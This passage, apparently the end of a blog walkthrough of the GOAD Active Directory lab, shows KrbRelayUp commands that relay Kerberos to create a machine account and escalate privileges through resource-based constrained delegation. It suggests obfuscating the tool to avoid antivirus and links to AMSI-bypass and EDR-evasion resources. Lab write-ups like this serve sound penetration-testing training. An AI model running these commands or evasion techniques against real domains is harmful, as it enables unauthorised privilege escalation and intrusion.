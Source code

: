 ![privesc_withrubeus.png](/assets/blog/GOAD/privesc_withrubeus.png)


- Without AV or if you modify/obfuscate KrbRelayUp you can do the all things with the following commands:
```powershell
.\KrbRelayUp.exe relay -Domain north.sevenkingdoms.local -CreateNewComputerAccount -ComputerName evilhost2$ -ComputerPassword pass@123
./KrbRelayUp.exe spawn -m rbcd -d north.sevenkingdoms.local -dc winterfell.north.sevenkingdoms.local -cn evilhost2$ -cp pass@123
```

#### With other methods

- KrbRelay can also be used to relay to ADCS or to add msDS-KeyCredentialLink and exploit with ShadowCredentials. All you need to know is on [this page](https://github.com/Dec0ne/KrbRelayUp), this is leave as an exercice to the reader.
- Start on braavos mssql and try to get a shell as admin :)


## Useful Links

- [https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell](https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell)
- [https://s3cur3th1ssh1t.github.io/Powershell-and-the-.NET-AMSI-Interface/](https://s3cur3th1ssh1t.github.io/Powershell-and-the-.NET-AMSI-Interface/)
- [https://github.com/S3cur3Th1sSh1t/PowerSharpPack](https://github.com/S3cur3Th1sSh1t/PowerSharpPack) 
- [https://jlajara.gitlab.io/Potatoes_Windows_Privesc](https://jlajara.gitlab.io/Potatoes_Windows_Privesc)
- [https://ppn.snovvcrash.rocks/pentest/infrastructure/ad/av-edr-evasion/dotnet-reflective-assembly](https://ppn.snovvcrash.rocks/pentest/infrastructure/ad/av-edr-evasion/dotnet-reflective-assembly)
- [https://gist.github.com/tothi/bf6c59d6de5d0c9710f23dae5750c4b9](https://gist.github.com/tothi/bf6c59d6de5d0c9710f23dae5750c4b9)
- [https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/](https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/)